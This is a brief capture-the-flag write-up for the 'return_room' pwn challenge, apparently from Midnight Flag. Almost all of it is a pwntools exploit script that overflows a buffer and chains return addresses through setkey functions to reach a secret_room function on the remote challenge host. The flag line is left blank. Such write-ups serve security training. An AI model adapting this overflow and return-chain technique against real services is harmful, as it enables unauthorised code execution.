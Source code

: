 # Description
"Der Teufel steckt im Detail", Friedrich Nietzsche
Accès au challenge : `nc ctf.midnightflag.fr 9022`

# Write UP
```python
from pwn import *

elf = ELF('./return_room')

r = remote('ctf.midnightflag.fr', 9022)

buf = "A"*26
buf += p32(elf.sym['setkey2'])
buf += p32(elf.sym['setkey3'])
buf += p32(0x0804901e)
buf += p32(0xffffffff)
buf += p32(elf.sym['setkey1'])

buf += p32(elf.sym['secret_room'])

r.sendline(buf)

r.interactive()
```

# Flag
-
